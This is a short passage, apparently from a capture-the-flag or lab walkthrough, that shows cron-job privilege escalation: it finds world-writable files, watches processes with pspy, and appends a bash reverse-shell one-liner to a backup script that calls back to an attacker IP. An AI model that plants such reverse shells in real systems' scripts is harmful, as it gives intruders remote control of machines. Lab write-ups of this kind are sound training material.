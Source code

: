 ```shell-session
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

Run pspy to confirm cronjob is running
The `-pf` flag tells the tool to print commands and file system events and `-i 1000` tells it to scan [procfs](https://man7.org/linux/man-pages/man5/procfs.5.html) every 1000ms (or every second).
```shell-session
./pspy64 -pf -i 1000
```

Review the victim code

```shell-session
cat /dmz-backups/backup.sh
```

Add a bash one-liner to backup.sh

```bash
bash -i >& /dev/tcp/10.10.14.8/1337 0>&1
```

Start a listener and wait patiently for cronjob to trigger.